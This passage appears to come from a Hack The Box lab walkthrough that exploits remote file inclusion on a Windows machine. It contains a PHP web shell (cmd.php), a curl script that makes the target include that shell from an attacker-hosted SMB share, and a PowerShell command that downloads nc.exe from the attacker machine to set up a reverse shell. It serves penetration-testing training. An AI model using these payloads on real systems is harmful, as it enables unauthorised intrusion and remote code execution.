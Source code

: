 Let's put in the following file in that share and start the service.

```
echo '<?php phpinfo(); ?>' > info.php && systemctl start smbd
```


{% include image.html image_alt="e6415fb0.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/e6415fb0.png" %}


Awesome!

## Low-Privilege Shell

We should now be able to put in another PHP file that executes commands remotely.

<div class="filename"><span>cmd.php</span></div>

```php
<?php echo shell_exec($_GET[0]); ?>
```


{% include image.html image_alt="62f39630.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/62f39630.png" %}


And because there's HTML mixed inside the output, I wrote a simple bash script to tidy up the output.

<div class="filename"><span>tidy.sh</span></div>

```shell
#!/bin/bash

HOST=10.10.10.151
CMD=$(urlencode $1)
READ="//10.10.15.171/evil/cmd.php"
#READ="${READ//\\/\/}"

curl -s \
     "http://$HOST/blog/index.php?lang=$READ&0=$CMD" \
| sed '1,60d' \
| head -n -3
```


{% include image.html image_alt="f53edaf5.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/f53edaf5.png" %}


See? So much neater! Now, let's see how we can get a reverse shell. I used the following command to download a copy of `nc.exe` from Kali Linux to `C:\Windows\System32\spool\drivers\color`.

```
# ./tidy.sh 'powershell /c iwr http://10.10.15.171/nc.exe -outf \windows\system32\spool\drivers\color\cute.exe'
```



[1]: https://www.hackthebox.eu/home/machines/profile/211
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/